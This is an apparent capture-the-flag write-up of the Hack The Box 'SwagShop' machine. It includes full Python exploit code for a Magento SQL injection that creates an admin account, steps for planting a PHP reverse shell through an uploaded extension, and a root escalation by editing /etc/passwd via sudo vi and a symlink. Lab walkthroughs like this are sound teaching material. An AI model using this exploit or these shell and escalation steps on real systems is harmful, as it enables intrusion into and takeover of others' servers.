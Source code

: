 # Write-up of swagshop HTB

We will start off with nmap scan of the ip 10.10.10.140 

```
[sarthak@sarthak swagshop]$ nmap -sV 10.10.10.140 -v -Pn
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-19 11:54 IST
NSE: Loaded 43 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 11:54
Completed Parallel DNS resolution of 1 host. at 11:54, 0.01s elapsed
Initiating Connect Scan at 11:54
Scanning 10.10.10.140 [1000 ports]
Discovered open port 22/tcp on 10.10.10.140
Discovered open port 80/tcp on 10.10.10.140
Completed Connect Scan at 11:55, 34.33s elapsed (1000 total ports)
Initiating Service scan at 11:55
Scanning 2 services on 10.10.10.140
Completed Service scan at 11:55, 6.52s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.140.
Initiating NSE at 11:55
Completed NSE at 11:55, 1.12s elapsed
Initiating NSE at 11:55
Completed NSE at 11:55, 0.00s elapsed
Nmap scan report for 10.10.10.140
Host is up (0.25s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http    Apache httpd 2.4.18 ((Ubuntu))
1045/tcp filtered fpitp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.42 seconds
```
We have port 80 opened let's see what we got there ...<br/>
![](Selection_007.png)


Here we have Magento platform running,So after googling of 15 min we found a [exploit](https://www.exploit-db.com/exploits/37977) which will create a admin account for us,So let's quickly download and run this exploit(ip address has been already changed inside the exploit)


```
[sarthak@sarthak swagshop]$ python2 exp.py 
/usr/lib/python2.7/site-packages/requests/__init__.py:91: RequestsDependencyWarning: urllib3 (1.25.2) or chardet (3.0.4) doesn't match a supported version!
  RequestsDependencyWarning)
DID NOT WORK
[sarthak@sarthak swagshop]$ 

```


hmm...it doesn't work ..after reviewing the source code of exploit program was looking for the '/admin/' path let's first find it manually...


![](Selection_009.png)


Notice the url here it's weird that it has http://10.10.10.140/index.php/customer/
So what i did here was replaced /customer/ with /admin/ and now we can see the admin panel

![](Selection_010.png)

Now we will modify the exploit and then run

FINAL EXPLOIT CODE:-
```python
import requests
import base64
import sys

target = "http://10.10.10.140/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="forme", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"

```
Now let's seee

```
[sarthak@sarthak swagshop]$ python2 exp.py 
/usr/lib/python2.7/site-packages/requests/__init__.py:91: RequestsDependencyWarning: urllib3 (1.25.2) or chardet (3.0.4) doesn't match a supported version!
  RequestsDependencyWarning)
WORKED
Check http://10.10.10.140/admin with creds forme:forme
[sarthak@sarthak swagshop]$ 

```

we have creds now after logging in i looked up for exploits to get shell and found one [video](https://www.youtube.com/watch?v=pDKb_LOoDes) on youtube in which that person has uploaded shell by using the filesystem section but then i realised we don't have that section 

So after googling around, I found the [extension](https://pluginarchive.com/magento/magpleasure_filesystem) and way to upload it ...


![](Selection_012.png)

So after clicking it we got the portal to login

![](Selection_013.png)

we will use same creds from exploit *forme:forme*

![](Selection_014.png)

We will upload the filesystem extension 

![](Selection_015.png)

Now we will go back to admin panel by click on this section

![](Selection_016.png)

go to System -->File system-->IDE

![](Selection_017.png)

Open the get.php and replace with the php reverse shell which i got from [here](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

![](Selection_018.png)

We got the shell when we opened this link [http://10.10.10.140](http://10.10.10.140)

![](Selection_019.png)

now we will first make the shell fully interactive

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl +z
stty raw -echo  
fg
export SHELL=bash
export TERM=xterm
```
Output:-
```
$ which python3                  
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@swagshop:/$ ^Z
[1]+  Stopped                 nc -nvlp 1234
[sarthak@sarthak swagshop]$ stty raw -echo  
[sarthak@sarthak swagshop]$ nc -nvlp 1234

www-data@swagshop:/$ export SHELL=bash
www-data@swagshop:/$ export TERM=xterm
www-data@swagshop:/$ 
```

now we will see if we have sudo permissions

```
www-data@swagshop:/$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
www-data@swagshop:/$ 

```

We can run vi with everything inside html so what we will do is we will make a symlink of passwd file and we will place a openssl hash at root section to login !!


We have created a symlink ...<br/>
```
www-data@swagshop:/$ ln -s /etc/passwd /var/www/html/
```

Now we have created a password hash for root as 'pass123'

![](Selection_021.png)

Open passwd file with vi
```
www-data@swagshop:/$ sudo /usr/bin/vi /var/www/html/passwd
```
Placed the hash 

![](Selection_022.png)

Now login as root

```
www-data@swagshop:/$ su root
Password: 
root@swagshop:/# id
uid=0(root) gid=0(root) groups=0(root)
root@swagshop:/# 
```

And we got root !!!!

<<gif>>

That's for all for today guys :grimacing:<br/>
I hope you would enjoy this writeup..!!



